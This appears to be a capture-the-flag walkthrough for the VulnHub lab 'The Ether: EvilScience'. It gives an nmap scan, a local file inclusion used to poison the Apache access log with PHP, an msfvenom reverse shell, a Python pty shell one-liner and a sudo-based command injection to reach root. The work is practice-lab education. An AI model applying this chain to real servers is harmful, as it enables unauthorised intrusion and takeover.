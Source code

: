 

Recon part

host scan:

nmap -sV -A -Pn 192.168.187.128 -p-

Starting Nmap 7.40 ( https://nmap.org ) at 2018-01-17 12:51 EST
Nmap scan report for 192.168.187.128
Host is up (0.0010s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 12:09:bc:b1:5c:c9:bd:c3:ca:0f:b1:d5:c3:7d:98:1e (RSA)
|_  256 de:77:4d:81:a0:93:da:00:53:3d:4a:30:bd:7e:35:7d (ECDSA)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: The Ether
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.46 seconds



go to web server and find LFI for access apache logs : http://192.168.187.128/?file=../log/access.log#top

As LFI works over a php engine it is a big change that php code injected inside log file will be processed by php:

so:
1. intercept any request to web server
2. inject php code inside


![alt text](https://github.com/s1l3xz/some/blob/master/vuln_hub/The Ether: EvilScience/inject.jpg)


where "shell" file is generated reverse shell ( generated by msfvenom )




than refresh http://192.168.187.128/?file=../log/access.log#top in browser and php code executed


privilege escalation

spawn to tty shell : python -c 'import pty; pty.spawn("/bin/sh")'    ( see all options https://netsec.ws/?p=337)
see what files can be executed under root user from www-data : sudo -l

![alt text](https://github.com/s1l3xz/some/blob/master/vuln_hub/The Ether: EvilScience/priv1.png)


got root command execution by CLI injection ( thank Julia team member , I really tried over ssh username injection :(   ) : 


got flag in /root dir inside picture in base64 encoding:

![alt text](https://github.com/s1l3xz/some/blob/master/vuln_hub/The Ether: EvilScience/flag1.png)


![alt text](https://github.com/s1l3xz/some/blob/master/vuln_hub/The Ether: EvilScience/flag2.png)

